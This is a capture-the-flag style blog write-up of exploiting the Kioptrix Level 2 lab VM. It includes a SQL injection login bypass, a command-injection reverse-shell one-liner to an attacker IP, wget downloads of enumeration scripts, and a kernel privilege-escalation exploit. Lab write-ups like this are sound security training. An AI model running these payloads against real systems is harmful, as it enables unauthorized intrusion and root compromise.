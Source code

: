 ```yaml
---
title: "Kioptrix Lvl 2 Writeup"
layout: post
date: 2017-08-29
image: /assets/images/markdown.jpg
headerImage: false
tag:
- Writeup
- Pentest
category: blog
author: marioibarra
description: Kioptrix lvl 2 Writeup
---
```


## Kioptrix Level 2

I begin with the usual netdiscover and nmap scan of the target.

<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~# netdiscover -r 192.168.8.0/24


 Currently scanning: Finished!   |   Screen View: Unique Hosts                 
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.75.1    00:50:56:c0:00:08      1      60  Unknown vendor              
 192.168.75.2    00:50:56:f2:c5:e6      1      60  Unknown vendor              
 192.168.75.129  00:0c:29:4e:f5:c2      1      60  Unknown vendor              
 192.168.75.254  00:50:56:fb:35:c9      1      60  Unknown vendor 
</code></pre></figure>




<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~/oscp/exam/192.168.75.129$ cat 192.168.75.129.nmap 
# Nmap 7.50 scan initiated Wed Jul 12 01:14:25 2017 as: nmap -sV -O -oN /home/mario/oscp/exam/192.168.75.129/192.168.75.129.nmap 192.168.75.129
Nmap scan report for 192.168.75.129
Host is up (0.00023s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:4E:F5:C2 (VMware)
Device type: general purpose|media device
Running: Linux 2.6.X, Star Track embedded
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.23 cpe:/h:star_track:srt2014hd
OS details: Linux 2.6.9 - 2.6.30, Star Track SRT2014HD satellite receiver (Linux 2.6.23)
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 12 01:14:43 2017 -- 1 IP address (1 host up) scanned in 18.45 seconds
</code></pre></figure>


Port 80 looks like an easy target and it could possibly have a mysql database on the web service.
![image](/assets/images/kioptrixlvl2/index.png)

Probing a SQL injection, I used the username "admin" and the password "' OR '1'='1".  The injection worked and I gained access to an admin web console.
![image](/assets/images/kioptrixlvl2/sql-injection.png)

This console looks like it's vulnerable to command injection...

I leave a netcat listener on port 8080 open while I attempt to open a bash shell using: "ping 192.168.75.129; bash -i >& /dev/tcp/192.168.75.135/8080 0>&1" on the admin console.
<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~$ nc -lvp 8080
listening on [any] 8080 ...
192.168.75.129: inverse host lookup failed: Unknown host
connect to [192.168.75.135] from (UNKNOWN) [192.168.75.129] 32770
bash: no job control in this shell
bash-3.00$ whoami
apache
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ lsb_release -a
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
bash-3.00$  
</code></pre></figure>

A bash shell with apache privileges opened so I searched for ways to escalate privileges.

I setup a python http server on my machine and I downloaded a Linux enumeration script on the target machine in the /var/tmp directory since its writeable.

<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~/oscp/exam/192.168.75.129/privesc$ python -m SimpleHTTPServer 8081
Serving HTTP on 0.0.0.0 port 8081 ...
</code></pre></figure>

<figure class="highlight"><pre><code class="nohighlight" data-lang="bash">
bash-3.00$ wget http://192.168.75.135:8081/LinEnum.sh 
--02:03:18--  http://192.168.75.135:8081/LinEnum.sh
           => `LinEnum.sh'
Connecting to 192.168.75.135:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43,283 (42K) [text/x-sh]

    0K .......... .......... .......... .......... ..        100%    2.87 MB/s

02:03:18 (2.87 MB/s) - `LinEnum.sh' saved [43283/43283]
bash-3.00$ chmod 700 LinEnum.sh
bash-3.00$ wget http://192.168.75.135:8081/linprivchecker.py
--02:12:10--  http://192.168.75.135:8081/linprivchecker.py
           => `linprivchecker.py'
Connecting to 192.168.75.135:8081... searonnected.
HTTP request sent, awaiting response... 200 OK
Length: 25,308 (25K) [text/plain]

    0K .......... .......... ....                            100%    1.03 MB/s

02:12:10 (1.03 MB/s) - `linprivchecker.py' saved [25308/25308]

bash-3.00$ chmod 700 linprivchecker.py
bash-3.00$ python linprivchecker.py
</code></pre></figure>

No luck after searching for exploits so I went to my last resort and searched for kernel exploits.  I found one matching "Linux 2.6 centos 4.5" so I tested it.


<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~/oscp/exam/192.168.75.129/privesc$ searchsploit -m 9542
Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
    URL: https://www.exploit-db.com/exploits/9542/
   Path: /usr/share/exploitdb/platforms/lin_x86/local/9542.c

Copied to '/home/mario/oscp/exam/192.168.75.129/privesc/'
</code></pre></figure>


![image](/asset/images/kioptrixlvl2/kernel-exploit.png)


It wasn't too bad getting root, but I did spend alot of time trying to use other exploits that weren't on the kernel.
